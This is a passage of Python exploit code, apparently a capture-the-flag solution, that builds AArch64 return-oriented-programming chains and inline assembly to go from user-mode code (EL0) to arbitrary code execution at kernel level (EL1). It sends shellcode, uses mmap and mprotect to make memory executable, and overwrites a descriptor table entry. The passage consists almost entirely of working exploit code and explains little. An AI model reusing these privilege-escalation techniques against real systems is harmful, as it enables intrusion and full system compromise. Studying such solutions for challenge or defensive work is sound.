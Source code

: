 ```python
        read_rop_chain:
            mov x0, 0;\n
            add x1, x24, x22;\n
            mov x2, 1;\n
            ldr x5, ={el0_elf.symbols['read']};\n
            blr x5;\n
            
            add x22, x22, 1;\n
            cmp x22, x23;\n
            b.lt read_rop_chain
        
        mov x0, 0;\n
        ldr x1, ={hex(EL1_SYSCALL_HANDLER_RET_ADDR+1)};\n
        mov x2, 1;\n
        ldr x5, ={el0_elf.symbols['read']};\n
        blr x5;\n
        """
        + el0_tail_assembly
    )
    p.send(head_input)
    p.send(rop_chain)
    p.send(b"\x94")
    p.send(tail_input)


def el1_arbitrary_code_execute(assembly: str) -> None:
    NEW_MAP_ADDR = 0x7FFEFFFFB000
    DESCRIPTOR_TABLE_ADDR_OF_NEW_MAP = 0xFFFFFFFFC0028FD8
    chain = [0, NEW_MAP_ADDR]
    el1_return_oriented_programming(
        rop_chain=chain,
        el0_head_assembly=f"""
            mov x0, #0;\n
            ldr x1, ={hex(0x1000)};\n
            mov x2, #3;\n
            mov x3, xzr;\n
            mov x4, xzr;\n
            mov x5, #0xFFFFFFFFFFFFFFFF;\n
            ldr x6, ={el0_elf.symbols['mmap']};\n
            blr x6;\n
            
            mov x20, x0;\n
            
            ldr x6, ={el0_elf.symbols['gets']};\n
            blr x6;\n
            
            mov x0, x20;\n
            ldr x1, ={hex(0x1000)};\n
            mov x2, #5;\n
            ldr x6, ={el0_elf.symbols['mprotect']};\n
            blr x6;\n
            
            mov x0, 0;\n
            ldr x1, ={hex(DESCRIPTOR_TABLE_ADDR_OF_NEW_MAP+6)};\n
            mov x2, 1;\n
            ldr x5, ={el0_elf.symbols['read']};\n
            blr x5;\n
            
            add x22, x22, 1;\n
            cmp x22, x23;\n
            b.lt read_rop_chain
        """,  # this mmap allocate NEW_MAP_ADDR(0x7ffeffffb000)-0x36000
        head_input=make_shellcode(assembly) + b"\n" + b"\x00",
```